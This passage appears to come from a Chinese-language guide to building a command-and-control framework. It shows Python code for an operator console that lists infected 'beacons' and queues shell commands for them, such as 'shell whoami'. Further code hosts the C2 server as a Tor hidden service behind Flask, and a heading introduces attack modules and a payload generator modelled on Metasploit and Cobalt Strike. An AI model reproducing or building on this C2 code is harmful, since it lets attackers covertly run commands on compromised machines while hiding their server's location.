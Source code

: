 ```python
            continue
        
        parts = cmd_line.split()
        command = parts[0].lower()
    
        if command == 'help':
            print("Commands:")
            print("  beacons         - List all connected beacons.")
            print("  task <id> <cmd> - Task a beacon (e.g., task <beacon_id> shell whoami).")
        elif command == 'beacons':
            print("\n--- Active Beacons ---")
            for bid, bdata in beacons.items():
                last_seen_ago = int(time.time() - bdata['last_seen'])
                print(f"ID: {bid} | Last Seen: {last_seen_ago}s ago | IP: {bdata['ip']}")
            print("----------------------")
        elif command == 'task' and len(parts) >= 3:
            beacon_id = parts[1]
            if beacon_id not in beacons:
                print(f"[!] Beacon {beacon_id} not found.")
                continue
        
            task_type = parts[2]
            task_data = ' '.join(parts[3:])
        
            new_task = {'type': task_type, 'data': task_data}
            task_queue[beacon_id].append(new_task)
            print(f"[*] Task queued for beacon {beacon_id}.")

def main():
    # 启动Tor隐藏服务
    c2_onion_address = tor_handler.create_hidden_service(target_port=5000)
    if not c2_onion_address:
        print("[!] Failed to create Tor hidden service. Exiting.")
        return

    # 在后台线程运行Flask Web服务
    flask_thread = threading.Thread(target=lambda: app.run(host="0.0.0.0", port=5000))
    flask_thread.daemon = True
    flask_thread.start()

    # 运行C2控制台
    c2_console()

if __name__ == '__main__':
    main()
```

#### **6. 攻击模块与Payload生成器 (modules/ & payload_generator/)**

这部分是框架的可扩展核心，模仿了 MSF 和 Cobalt Strike 的理念。
